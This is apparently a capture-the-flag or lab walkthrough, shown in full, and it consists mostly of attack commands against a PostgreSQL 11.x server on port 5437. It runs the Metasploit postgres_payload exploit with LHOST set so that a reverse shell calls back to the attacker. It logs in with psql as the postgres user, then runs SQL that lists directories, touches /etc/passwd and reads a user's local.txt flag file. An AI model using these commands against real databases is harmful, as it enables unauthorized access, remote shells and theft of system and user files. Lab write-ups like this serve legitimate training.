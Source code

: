 # Commands
### Exploitation via Metasploit:
`5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.7`
```bash
use exploit(linux/postgres/postgres_payload)
set RHOST <target-ip>
set RPORT 5437
set LHOST tun0
run
```
### Manual Access via psql:
```bash
psql -U postgres -p 5437 -h <target-ip>
```

###
```bash
SELECT pg_ls_dir('./');
SELECT pg_ls_dir('/etc/passwd');
SELECT pg_ls_dir('/home/wilson');
SELECT pg_read_file('/home/wilson/local.txt');
```

